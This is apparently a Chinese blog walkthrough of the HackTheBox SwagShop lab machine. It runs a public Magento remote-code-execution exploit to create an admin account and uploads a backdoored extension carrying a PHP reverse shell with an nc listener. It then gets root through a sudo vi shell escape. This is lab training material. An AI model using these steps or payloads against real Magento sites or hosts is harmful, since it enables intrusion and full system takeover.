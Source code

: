 ```yaml
---
title: pentest HackTheBox swagshop 20190814
date: 2019-08-14 11:14:54
tags: [HackTheBox]
categories: [Network Security]
---
```


### 一、nmap收集信息

![nmap](/sourcepictures/2019/08/14/1.png)

可以看到22， 80端口开放

### 二、访问80端口

![web](/sourcepictures/2019/08/14/2.png)

可以看到网站是使用magento搭建的网站，Magento是一款新的专业开源电子商务平台，采用php进行开发，使用Zend Framework框架。

### 三、查找magento漏洞

```sh
searchsploit magento
```

![magento exploit](/sourcepictures/2019/08/14/3.png)

很多漏洞可以利用

选择远程代码执行，37977.py，修改代码

```py
target = "http://10.10.10.140/index.php"
if target.endswith("/"):
    target = target[:-1]
target_url = target + "/admin/Cms_Wysiwyg/directive/index/"

```

注意，一定要加上`/index.php`

执行：

```sh
root@kali2019:~/Desktop# python 37977.py 
WORKED
Check http://10.10.10.140/index.php/admin with creds forme:forme
```

### 四、反弹shell

访问`http://10.10.10.140/index.php/admin`，并登陆

下载[LavaMagentoBD](https://github.com/lavalamp-/LavaMagentoBD)，解压

把本地`/usr/share/webshells/php/php-reverse-shell.php`文件，修改ip地址为本机ip地址，保存

然后，替换`app\code\community\Lavalamp\Connector\controllers\IndexController.php`

重新打包，并上传`System>Magento Connect>Magento Connect Manager>Direct package file upload`。

```sh
tar zxvf lavalamp_magento_bd.tgz
vim /usr/share/webshells/php/php-reverse-shell.php
rm app\code\community\Lavalamp\Connector\controllers\IndexController.php
mv /usr/share/webshells/php/php-reverse-shell.php app\code\community\Lavalamp\Connector\controllers\IndexController.php
tar zcvf bd.tgz
```

本地监听：  
```sh
nc -v -n -l -p 1234
```

访问[http://10.10.10.140/app/code/community/Lavalamp/Connector/controllers/IndexController.php](http://10.10.10.140/app/code/community/Lavalamp/Connector/controllers/IndexController.php)，即可返回shell

### 五、获取目标hash

查看执行sudo的权限：  

```sh
$ sudo -l
Matching Defaults entries for www-data on swagshop:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on swagshop:
    (root) NOPASSWD: /usr/bin/vi /var/www/html/*
$ 
```

可以发现`/usr/bin/vi`可以执行sudo

```sh
$ ls /home        
haris
$ ls /home/haris
user.txt
$ /usr/bin/vi /home/haris/user.txt
```
可以获得user用户hash

执行

```sh
sudo /usr/bin/vi /var/www/html/test -c '!sh'
cat /root/root.txt
```
可以获得root用户hash



